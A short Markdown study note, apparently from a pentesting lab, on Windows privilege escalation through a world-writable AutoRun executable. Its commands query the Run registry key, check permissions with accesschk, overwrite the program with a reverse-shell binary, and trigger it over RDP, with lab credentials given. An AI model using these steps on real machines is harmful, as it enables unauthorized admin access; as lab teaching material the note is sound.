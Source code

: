 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
---
```


Similar vulnerabilities to [[CRON Jobs]]


1. Query the registry for AutoRun executables:
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

2. Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:
```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

3. Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

4. Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!
```
rdesktop 10.10.253.199
```